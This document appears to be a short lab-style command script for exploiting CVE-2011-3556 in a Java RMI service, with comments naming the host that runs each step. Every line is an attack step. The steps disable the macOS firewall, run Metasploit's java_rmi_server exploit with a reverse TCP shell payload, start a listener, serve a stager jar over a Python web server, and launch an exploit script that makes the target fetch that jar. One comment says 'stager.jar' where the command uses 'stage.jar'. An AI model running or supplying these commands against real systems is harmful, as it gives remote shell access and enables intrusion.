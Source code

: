 # 192.168.1.80 -- Update/upgrade Metasploit
apt-get update -y && apt-get dist-upgrade -y

# 192.168.1.71 -- Disable packet filtering
/usr/libexec/ApplicationFirewall/socketfilterfw --setblockall off

# 192.168.1.80 -- Use the exploit java/shell_reverse_tcp against the target and save the stage sniffed through the network as stager.jar.
msfconsole -q -x "use exploit/multi/misc/java_rmi_server;set payload java/shell_reverse_tcp;set rhost 192.168.1.77;set lhost 192.168.1.80;set lport 3099;run;exit -y"

# 192.168.1.80 -- Launch the Metasploit handler exploit/multi/handler on the listening host and port specified.
msfconsole -q -x "use exploit/multi/handler;set payload java/shell_reverse_tcp;set lhost 192.168.1.80;set lport 3099;run"

# 192.168.1.71 -- Launch the webserver that serves the stager and payload.
python3 -m http.server --bind 192.168.1.71 2099

# 192.168.1.71 -- Launch the exploit using the URI pointing to stager.jar.
./CVE-2011-3556.py --host 192.168.1.77 --uri http://192.168.1.71:2099/stage.jar --logging=DEBUG

# 192.168.1.80 -- Wait for a connection on the handler.
